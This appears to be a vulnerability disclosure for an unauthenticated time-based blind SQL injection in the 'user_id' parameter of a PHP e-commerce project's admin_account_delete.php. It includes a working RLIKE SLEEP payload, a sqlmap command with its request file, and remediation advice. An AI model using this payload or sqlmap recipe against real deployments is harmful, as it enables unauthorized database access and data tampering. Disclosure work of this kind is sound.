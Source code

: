 # E-Commerce Website Project V1.0 admin_account_delete.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- E-Commerce Website

## Vendor Homepage

- [E-Commerce Website In PHP With Source Code - Source Code & Projects](https://code-projects.org/e-commerce-website-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- K1nako

## VERSION(S)

- V1.0

## Software Link

- [E-Commerce Website In PHP With Source Code - Source Code & Projects](https://code-projects.org/e-commerce-website-in-php-with-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'admin_account_delete.php' file of the 'E-Commerce Website' project. The reason for this issue is that attackers inject malicious code from the parameter "user_id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "E-Commerce Website", discovered a critical SQL injection vulnerability in the "admin_account_delete.php" file. This vulnerability stems from insufficient user input validation of the 'user_id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind

## Vulnerability location:

- 'user_id' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: http://10.151.167.210:8887/Electricks-shop/pages/admin_account_delete.php?user_id=1 RLIKE SLEEP(5)
    Vector: RLIKE (SELECT [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM]))
```

![image-20250914152948279](assets/image-20250914152948279.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
GET /Electricks-shop/pages/admin_account_delete.php?user_id=1* HTTP/1.1
Host: 10.151.167.210:8887
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=860bf9sue3vca48n2eir3ln4j7
Connection: keep-alive
```

# Attack results

![image-20250914153043471](assets/image-20250914153043471.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.